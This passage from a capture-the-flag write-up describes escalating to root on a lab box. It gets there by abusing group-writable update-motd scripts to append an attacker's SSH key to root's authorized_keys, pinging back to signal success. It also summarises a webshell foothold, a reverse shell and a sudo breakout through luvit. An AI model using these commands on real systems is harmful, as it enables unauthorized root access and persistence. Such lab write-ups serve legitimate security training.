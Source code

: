 We can't write to any of the backup files, which might have been what made me give up on the idea at first. However, if one is careful, we can see that the files in `/etc/` are group writeable, and owned by the `sysadmin` group!
Well, we just escalated our privileges to a user in that group, so we should be able to write this!

Looking into what these files do (did not do it at the time, so this is new to me as well) leads us to [ubuntu wiki's article on the package](https://wiki.ubuntu.com/UpdateMotd).
The TL;DR is: every 10 minutes (by default) the scripts are ran and their results are concatenated, along with a footer, to make up the motd.

At the time, I just spammed a command to replace the contents of some of the motd scripts with `cat /root/root.txt` which gets us the flag in the motd when logging in via SSH.
Now, after some trial and error I managed to make a working approach to get a root shell:

* Since the scripts are ran periodically when the motd is built, we cannot have a reverse shell there, since the processes are killed if they take too long (from what I tested)
* Backgrounding a reverse shell does not work, since the `fd`s are lost (need to further investigate this, but the errors I got from testing it separately showed that this was the case)
* As such, we can try a different approach: Writing to `$HOME/.ssh/authorized_keys`.
* By creating a keypair using `ssh-keygen` and writing the public key to the mentioned file, we can SSH in using the private key
* As such, if the motd script has that when it runs then we can ssh into the box!

However, I had some problems with this approach. I will detail them and the solution for each of them as follows:
* Problem: The periodically running script keeps replacing my changes to the `motd` scripts.
* Solution: Fight fire with fire! `while true; do echo 'echo "publickey" >> /root/.ssh/authorized_keys' >> /etc/update_motd.d/00-header; sleep 10; done`
* Problem: I don't know if/when the script triggers, so that I know when I can SSH. Spamming SSH might be an option, but it's bothersome.
* Solution: Adding a `ping -c 1 <my ip>` to the payload and monitoring its reception with `tcpdump -i tun0 icmp` lets us know that the exploit was triggered. The payload would thus look like `echo "publickey" >> /root/.ssh/authorized_keys; ping -c 1 myip`.

After letting the while loop run for a while we receive a ping, which means that we can now ssh into the machine as root!
Box done!

## TL;WH - Too Long; Wanna Hack

Since some people are always in a rush, here's the abridged version.

Foothold:
* Find port 80 open with apache server
* Google name of exploit creator + "webshell"
* `gobuster` + file names of webshells
* Access `smevk.php` with the default credentials in the repo
* Get a reverse shell via the smevk network panel (selecting Perl)

User:
* Upgrade to full tty
* `sudo -l`
* `sudo` as sysadmin with the `luvit` program
* Break out by executing bash (`os.execute('/bin/bash')`)
* Read the flag in `sysadmin`'s home!
